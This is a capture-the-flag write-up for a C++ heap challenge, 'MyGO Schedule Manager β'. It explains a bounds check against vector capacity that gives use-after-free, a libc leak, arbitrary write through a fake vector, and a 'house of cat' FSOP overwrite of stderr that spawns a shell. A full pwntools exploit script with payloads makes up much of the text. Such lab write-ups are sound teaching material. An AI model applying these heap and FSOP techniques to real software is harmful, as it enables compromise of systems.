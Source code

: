 # MyGO Schedule Manager β
> Author: 堇姬Naup

## analyze code

First, you need to login. Just input `MyGO!!!!!` in username and `TomorinIsCute` in password.

And then you will look four function about manipulate schedule.

1 -> add
2 -> edit
3 -> delete
4 -> show

`add_schedule` need to input a string which you want to emplace_back to schedule (std::vector<std::string>).
It'll check scedule not bigger than 4.

`edit_schedule` it need to two input. `index` and `string` 
It will edit schedule[index] to your input string.
And it will check your input not bigger than vector capacity(It is so strange, but let me later to descript it. It is this challenge core) 

`delete_schedule` is look like previous function.
User need to input index, it will erase vector.begin()+index.
This part check is the same, it check vector capacity.


Last function is show_schedule. It will show your schedule's string content.
And check is vector capacity.

PS: It has operation's times limit.

## Some Knowledge
First we need to know `std::vector` and `std::string` structure.
This is std::vector
| offset | description |
|--------|-------------|
| 0x0 | array's first element pointer |
| 0x8 | vector end pointer |
| 0x10 | array's capacity limit pointer  |

Anthor is std::string
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

OK, now you need to know vector capacity.
When vector need to let its capacity more bigger?
The answer is $2^n, n \in \{ 0, 1, 2, 3, \dots \}$
If it need to expand its capacity.
It will free origin chunk which store vector elements structure.
And alloc new chunk.

## analyze bug
We know vector's capacity will be expanded in advanced.
So, when vector elements count is 3.
Its capacity is four.

It will access out of vector's have element part.
So first we alloc 0x500 size std::string, and alloc 0x10 size(When you free 0x500, let your unsorted bin not consolidate to top chunk.)
And free 0x10 and free 0x500.
And you show chunk 0x500, fd and bk's libc address will be show.
We will leak libc (erase just destroy, not go to clear vector's element)
```c
iterator erase(iterator position){
    if(position + 1 != end()){
        copy(position+1,finish,position);
}
    --finish;
    destroy(finish);
    return position;
}
```

And we alloc one chunk, and input it like a fake vector (4 elements).
Fourth element 0x0 change to `You want to write address` (This is pointer point to data), and free this chunk.
0x8 and 0x10 set how many bytes you want to write.

Alloc three chunk:
When you allocate third chunk, vector capacity will be expanded to 4 and alloc new chunk store element struct.
In advanced, you have been freed one chunk which have written fake vector will be catch to use and fourth element have been put fake vector which point to `You want to write address`. 

When you read C++ source code, new allocate chunk didn't clear its chunk memory.

And it check index by capacity, so we can access this fake pointer(If we don't have UAF, when you add new schedule, your fake pointer will be overwritten).
OK, So we will get arbitrary write on libc (std::string).

We use house of cat (FSOP) and overwrite stderr. And when this binary exit, We will get shell.
PS: patch libc let you can success exploit on glibc 24.04

If you don't understand, go to read my script.

PS: More information go to read c++ source code
https://github.com/Naupjjin/gcc/tree/master

## script
```python
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

#### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 127.0.0.1 51001")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO
def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def add(item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"Input item > ", item)

def edit(idx, item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"Index > ", str(idx).encode())
    sla(b"Edit item > ", item)

def delete(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"Index > ", str(idx).encode())

def show(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")
    sla(b"Index > ", str(idx).encode())

def exitf():
    sla(b"< MyGO @ ScheduleManager $ > ", b"5")

### exploit

login()
add(b"a" * 0x500)
add(b"b" * 0x10)
delete(1)
delete(0)

show(0)
r.recvuntil(b'] is ')
leaklibc = (u64(r.recvline().strip()[:6].ljust(8,b'\x00')) << 8 ) + 0x20
libcbase = leaklibc - 0x203b20


IO_STDERR = libcbase + 0x2044e0
libc_system = libcbase + 0x58740

payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(IO_STDERR) + p64(0x1d0) + p64(0x1d0) + p64(0)

add(payload1)
delete(0)

add(b'Tomorin')
add(b'Soyorin')
add(b'Rana')

libc_IO_wfile_jumps = libcbase + 0x202228
emptylibc = libcbase + 0x204bc0
fakew_data = IO_STDERR
fake_wow = IO_STDERR + 0x18

payload2  = b"sh;".ljust(8, b"\x00") # _flags

payload2  = payload2.ljust(0x20, b"\x00")
payload2 += p64(1)
payload2  = payload2.ljust(0x30, b"\x00")
payload2 += p64(libc_system)
payload2  = payload2.ljust(0x70, b"\x00")
payload2 += p32(2)
payload2  = payload2.ljust(0x78, b"\x00")
payload2 += p64(0xffffffffffffffff)
payload2  = payload2.ljust(0x88, b"\x00")
payload2 += p64(emptylibc) + p64(0xffffffffffffffff)
payload2  = payload2.ljust(0xa0, b"\x00")
payload2 += p64(fakew_data) 
payload2  = payload2.ljust(0xc0, b"\x00")
payload2 += p32(1)
payload2  = payload2.ljust(0xd8, b"\x00")
payload2 += p64(libc_IO_wfile_jumps + 0x30) + p64(fake_wow)

edit(3, payload2)


sl(b"5")

NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
NAUPINFO('STD ERROR', hex(IO_STDERR))
### interactive
ita()
```








